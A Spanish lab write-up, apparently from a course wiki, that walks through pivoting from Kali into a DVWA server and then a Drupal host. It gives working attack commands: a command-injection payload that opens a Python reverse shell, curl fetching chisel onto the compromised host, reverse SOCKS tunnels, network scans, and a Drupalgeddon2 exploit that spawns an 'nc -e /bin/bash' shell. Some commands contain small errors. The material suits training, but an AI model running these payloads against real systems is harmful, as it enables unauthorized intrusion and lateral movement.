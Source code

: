 ```yaml
---
title: Practica de pivotaje
description: En está pagina vamos a explicar como se hizo el pivotaje
published: true
date: 2024-12-16T20:16:33.815Z
tags: 
editor: markdown
dateCreated: 2024-12-11T17:47:05.082Z
---
```


# Práctica pivotaje
Bienvenido a la práctica de la máquina del pivotaje.
## Explicación
La práctica que vamos consiste en un pivotaje entre maquinas vulneradas.

### Requisitos
Debemos tener tres maquinas virtuales:
1. Máquina Kali o máquina Hacker, desde donde querremos infiltrarnos.
2. Servidor 1: Servidor DVWA en un Ubuntu Server.
3. Servidor 2: Servidor Devion7 en un Oracle.

Además deberemos tener dos redes NATs:
1. Red Kali - Dvwa
2. Red Dvwa - Devion7

### Configuración de DVWA
>  Partimos con que ya se ha instalado las máquinas necesarias y se han establecidos los requisitos correctamente.
{.is-info}

Dentro de la máquina DVWA, deberemos acudir a la ruta "**/etc/apach2/ports.conf**", aquí deberemos escribir:
`Listen 127.0.0.1:8000`

Tras esto acudiremos a la ruta "**/etc/apache2/sites-available**" y crearemos la carpeta "001-router.conf"
```bash
mkdir 001-internal.conf
```

Dentro de esta carpeta deberemos escribir lo siguiente:
```
<VirtualHost 127.0.0.1:8000>
	ServerName internal.cyberlab.local
  DocumentRoot /var/www/internal
 </VirtualHost>
```

Tras hecho esto, podremos hacer el comando:
```
sudo a2ensite 001-internal.conf
```

Y después deberemos hacer un:
```console
systemctl reload apache2
```

Con esto habremos creado un servicio en el puerto 8000, y será visible siempre y cuando hagamos una lectura en locahost:8000, esto lo usaremos más adelante para comprobar efectivamente que se ha hecho correctamente el pivotaje.

Haremos solo haremos una carpeta en la ruta indicada:
```console
vim /var/www/internal/index.html
```

Aquí pondremos lo que querramos para verificar que se ha hecho el pivotaje, un buen ejemplo puede ser:
\<h1> HOLAAA </h1\>


## Ejecución
### Control de DVWA
Lo primero que haremos será establecer un puerto de escucha en Kali, para ello haremos un: 
```console
nc -lvnp (Puerto)
```
Tras esto, como Kali, deberemos acudir al apartado de DVWA:Command Injection. Aquí deberemos escribir lo siguiente:
```console
127.0.0.1;export RHOST="(IP de KALI)";export RPORT=(PUERTO DE KALI);nohup python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' &
```

Esto lo hemos sacado de las siguiente URL: https://www.revshells.com
> En caso de error, comprueba que la dificultad está en low, el host y el puerto.
{.is-info}

Tras esto habremos hecho una shell reversa la cual tenemos total acceso y control. Ahora vamos a intentar crear un tunnel de comunicación entre la Kali y el DVWA, para ello vamos a usar Chisel. Lo primero que haremos será descargarnos el software en: https://github.com/jpillora/chisel/releases

Y nos descargaremos aquel fichero que ponga Linux_amd64.gz

Una vez descargado, lo descomprimimos y lo haremos un ejecutable. Eso lo haremos con los siguientes comandos:
```console
gzip -d chisel_1.10.1_linux_amd64.gz
mv chisel_1.10.1_linux_amd64 chisel
chmod +x chisel
```

Este archivo lo deberemos subir a la máquina de DVWA, para ello deberemos crear un servicio web en Kali con el siguiente comando:
```console
python3 -m http.server
```
> Importante ejecutar este comando en la misma cartepa donde esta el chisel descargado.
{.is-info}

Y ahora en la máquina de DVWA, vamos a poner:
```console
curl http://(maquinaKali)/chisel -o chisel
```

Si hacemos esto de forma correcta, la máquina DVWA habrá descargado el fichero, podemos comprobarlo con un ls.

Perfecto, ahora vamos a modificar el Socks5. Esto es para poder establecer una conexión muchisimo mas comoda entre Kali y DVWA, para ello vamos a tener que modificar lo siguiente:
```console
nano /etc/proxychains4.conf
```
Deberemos fijarnos que en la primera zonas de texto, esté presente **strict_chain** y después al final deberemos comentar la linea **socks4 127.0.0.1 9050**, y escribiremos en su lugar **socks5 127.0.0.1 1080**.
![image.png](/imagen_hacking_pivotaje_1.png)

Luego en la herramienta de FoxyProxy, vamos a añadir una nueva entrada con lo siguiente:
![imagen_hacking_pivotaje_2.png](/imagen_hacking_pivotaje_2.png)

> No lo activamos todavia
{.is-warning}

Tras esto, tendremos listo un proxy que puede analizar todas las peticiones como si estuvieramos viendolo desde el seridor DVWA.

Lo siguiente que haremos será establecer la conexión con chisel para poder, para ello en Kali escribiremos: 
```console
./chisel server -p 4000 --reverse
```

En nuestra maquina vulnerada (DVWA), deberemos escrbir lo siguiente:
```console
./chisel client (ip kali):4000 R:8000:127.0.0.1:8000
```

Si todo va bien, desde nuestra maquina local podremos buscar el servidor local que hicimos en DVWA:
![imagen_hacking_pivotaje_3.png](/imagen_hacking_pivotaje_3.png)


Ahora vamos a usar el socks5 que configuramos anteriormente. Para ello deberemos poner en nuestra maquina local:
```console
./chisel server -p 4000 --reverse --socks5
```

Y en nuestra maquina DVWA, vamos a poner:
```console
./chisel server -p 4000 --reverse R:socks
```


Tras esto, si activamos el proxy, podremos hacer la busqueda del servidor directametne en el navegador.

### Entrar en Debian
Para poder tener acceso a este nuevo servidor, como ya tenemos una shell ocupada con la comunicaciones, vamos a abrir un nueva shell. Para ello deberemos hacer los mismos paso que hicimos anteriormente (nc -lnvp).
Una vez tengamos una nueva shell, vamos a intentar descubrir las IP locales en esta red, para ello primero hacemos:
```script
ip a
```

Y una vez sepamos el rango de la IP, en mi caso 10.0.0.6/24. Vamos a poner un pequeño script en la máquina DVWA para detectar el resto de IPs, el escript es el siguiente:
```bash
for j in $(seq 1 10);do ping -c 10.0.3.$j > /dev/null && echo "host activo 10.0.3.$j";done
```
Esto nos devolverá un listado grande de IPs por lo que deberemos deducir cuál es el server, para ello podemos hacer uso de nmpa con:
```bash
proxychains4 -q nmap -sT -Pn 10.0.3.4
```
> Ir probando la IP con cada uno de los resultados para ver los puertos disponibles.
{.is-info}

Cuando entramos en el website, podemos descrubir que es un servidor Drupal con una vulnerabilidad de Drupalgeddon2. Por lo que podemos usar el exploit (Disponible en GitHub), para poder explotarlo.

Una vez tengamos el exploit disponible vamos a realizar lo siguiente:
- En una terminal de DVWA vamos a poner:
```bash
./chisel client (kali):4000 0.0.0.0:9999:(kali):9999
```
- En una terminal de kali:
```bash
nc -lnvp 9999
```
- En otra terminal de kali, sin cerrar la anterior:
```bash
proxychains 4 -q python2 exploit.py -h http://(ip/ dc-1) -c 'nohup nc -e /bin/bash (Ip Dvwa) 9999 &'
```